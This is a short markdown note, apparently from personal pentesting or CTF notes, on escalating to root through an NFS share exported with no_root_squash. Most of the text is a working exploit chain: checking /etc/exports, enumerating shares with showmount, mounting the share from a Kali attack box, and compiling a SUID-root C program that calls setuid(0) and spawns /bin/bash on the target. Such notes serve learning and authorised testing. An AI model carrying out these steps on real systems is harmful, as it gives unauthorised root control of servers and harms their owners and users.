 # Overview
NFS lets you share folders over the network. By default, if root writes files to an NFS share, they’re “squashed” → mapped to user to nfsnobody.This prevents remote users from gaining root on the server
If the option no_root_squash is set, root on the client = root on the server.

# Look for shares that has read & write and no root squash

<pre>cat /etc/exports </pre>
<img width="1017" height="130" alt="image" src="https://github.com/user-attachments/assets/a55df973-015e-4dbd-b9e1-fc055f470ab4" />

# Enumerate the shares from kali attack box
showmount -e <target>

# Mount it to your kali machine
mount -o rw 10.10.32.117:/home/ubuntu/sharedfolder /mnt/jrptentest

# Create simple SUID- root inside the mounted share
int main() { setuid(0); system("/bin/bash"); }

# Compile it and give it a SUID bit

gcc nfs.c -o nfs
chmod +s nfs

# The executable should appear on the server now with SUID root

# Run it on the target shell.
